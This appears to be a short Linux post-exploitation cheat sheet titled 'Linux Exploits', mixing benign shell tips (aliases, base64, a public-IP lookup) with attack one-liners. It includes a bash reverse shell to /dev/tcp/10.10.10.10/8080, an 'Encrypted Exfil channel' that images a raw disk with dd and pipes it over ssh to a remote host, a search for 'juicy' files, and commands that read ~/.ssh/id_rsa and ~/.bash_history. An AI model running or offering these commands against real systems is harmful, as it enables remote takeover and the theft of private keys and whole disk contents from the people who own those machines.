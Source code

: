 # Linux Exploits

Redirect IPv6 listening TCP port to
localhost IPv4.

IPV6ADDR=fc00:660:0:1::46
&& PORT=110 && socat
TCP-LISTEN:$PORT,reuseaddr,
fork TCP6:[$IPV6ADDR]:$PORT

Find Juicy Stuff in the File System

 find /PATH/TO/DIRECTORY
-name "FILE-FILTER" -type
f -exec grep -i "STRING"
{} \; -print 2>/dev/null

Find public ip

curl -4 icanhazip.com

Make output easier to read

alias ccat='pygmentize
-O bg=dark,style=colorful'

Encrypted Exfil channel

dd if=/dev/rdisk0s1s2
bs=65536 conv=noerror,sync
| ssh -C user@10.10.10.10
"cat >/tmp/image.dd"

Check service every second

while (true); do nc -vv
-z -w3 10.10.10.10 80 >
/dev/null && echo -e
"Service is up"; sleep 1;
done

Website Cloner

wget -r -nH $URL

Type “gah” after you forgot to use
sudo, and it’ll sudo your most recent
command.

alias gah='sudo $(history
-p \!\!)'

Create a reverse shell back to a
given IP address and port.

bash -i >&
/dev/tcp/10.10.10.10/8080
0>&1

Encode or decode base64
information.

echo 'Hello, World!' |
base64

echo
'SGVsbG8sIFdvcmxkIQo=' |
base64 -d

## Helpful Commands

cat ~/.bash_history
cat ~/.ssh/config
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts